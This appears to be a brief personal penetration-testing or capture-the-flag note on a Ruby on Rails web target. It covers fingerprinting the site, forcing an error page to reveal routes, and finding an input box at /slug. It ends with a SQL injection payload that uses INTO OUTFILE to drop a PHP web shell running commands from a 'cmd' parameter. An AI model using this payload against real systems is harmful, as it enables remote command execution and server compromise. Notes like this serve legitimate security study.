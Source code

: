 ```yaml
---
category: Uncategorized
tags: []
---
```


Using Wappalyzer, we see Rub on Rails in Web frameworks.

![[Pasted image 20221108121650.png]]

Reviewing the url, we manipulate the path to spawn an error.

http://$TARGET/users/

http://$TARGET/x/

![[Pasted image 20221108121711.png]]

We now have a list of Paths for us to try.

Visting /slug, we get a text box.

[[1.2_MySQL#Using INTO OUTFILE to create a malicious PHP file:]] EXAMPLE 3


```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```
